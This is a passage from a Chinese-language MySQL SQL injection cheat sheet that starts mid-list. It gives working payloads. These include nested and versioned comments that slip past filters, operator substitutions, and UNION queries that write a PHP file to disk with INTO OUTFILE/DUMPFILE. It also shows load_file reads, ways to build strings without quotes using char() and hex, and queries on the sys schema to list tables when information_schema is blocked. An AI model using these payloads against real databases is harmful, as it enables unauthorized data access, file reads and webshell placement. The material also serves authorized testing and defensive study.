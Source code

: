     小于的时候不会执行

    注释也可以嵌套使用

            select/*adsafsadf/*asfdasf*/user()
            select user()/*!50000union/*!50000select*/database()


4. 运算符

    and为逻辑运算符，可被 `or` `xor` `not`代替，同时`and=&&` `or=||` `xor=^` `not=!`

    `select * from user where not(0=1);`



5. 文件读取导出

    **outfile**和**dumpfile**，必须root，必须开启`secure_file_priv`，必须有绝对路径，必须拼接在`select`最后，必须可以使用单引号。如果无法控制查询最终内容，`outfile`可拼接如下4个。

    `lines terminated by`
    `lines starting by`
    `fields terminated by`
    `columns terminated by `

    ```mysql
    select * from user where id=1 union select 1,'<?php phpinfo();>',3,4 into dumpfile '/home/1.php'
    select * from user where id =1 order by 1 limit 0,1 into outfile '/home/1.php' lines terminated by '<?php phpinfo();>'
    ```

    **load_file**, 必须root，必须开启`secure_file_priv`，必须有绝对路径

    ```mysql
    select load_file('/home/1.php')
    ```

    bypass 单引号

    ```mysql
    select 'root'
    select char(114,111,111,116)
    select 0x726F6F74
    ```



6. 高版本的一些tips

    在mysql5.7版本，新增了sys公共库，使得我们可以在`information`被过滤了之后使用sys库里的一些表来查询库和表

    ```
    SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
    SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;
    SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='test' GROUP BY table_name;
    SELECT table_name FROM  sys.x$schema_flattened_keys WHERE table_schema='test' GROUP BY table_name;
    ```

    mysql8.0.21之后，增加`table`和`information_schema.TABLESPACES_EXTENSIONS`
